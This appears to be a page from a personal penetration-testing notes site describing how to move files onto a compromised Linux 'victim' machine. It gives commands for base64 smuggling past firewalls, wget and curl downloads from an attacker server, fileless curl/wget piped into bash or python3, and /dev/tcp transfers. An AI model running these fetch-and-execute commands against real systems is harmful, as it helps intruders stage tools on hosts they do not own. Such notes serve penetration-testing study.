

repository: amandaguglieri/hackinglife · page: transferring-files-techniques-linux/index.html · generator: mkdocs

---
title: Transferring files techniques - Linux
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - linux
  - exploitation
  - file transfer technique
  - backdoors
---
# Transferring files techniques  - Linux

## Download to Linux

### Base64

To avoid firewall protections we can:

**1.** Base64 encode the file:

```shell-session
base64 file.php -w 0

# Alternative
cat file |base64 -w 0;echo

```

**2.** Copy the base64 string, go to the remote host and decode it and pipe to a file:

```shell-session
echo -n "Looooooong-string-encoded-in-base64" | base64 -d > file.php
# -n: do not output the trailing newline
```

### Replicating client-server 

#### 1. Setting up a server in the attacking machine 

[See different techniques](servers.md)

#### 2. Download files from victim's machine

##### wget

```shell-session
wget http://<SERVERIP>:<SERVERPORT>/<file> -O  <OutputNameForFile>
# -O:  set the output filename.
```

##### curl

```shell-session
curl http://http://<SERVERIP>:<SERVERPORT>/<file> -o <OutputNameForFile>
```


### Fileless downloads using Linux

Because of the way Linux works and how pipes operate, most of the tools we use in Linux can be used to replicate fileless operations, which means that we don't have to download a file to execute it.

##### Fileless Download with cURL

```shell-session
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```


##### Fileless Download with wget

```shell-session
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

### Bash downloads

As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads. On the server side (attacking machine), setup a server by using one of the methodologies applied above.

On the client side (victim's machine):

```shell-session
# Connecting to the Target Webserver (attacking machine serving the file)
exec 3<>/dev/tcp/$ip/80

# Requesting the file to the server 
echo -e "GET /file.sh HTTP/1.1\n\n">&3

# Printing the Response
cat <&3
```
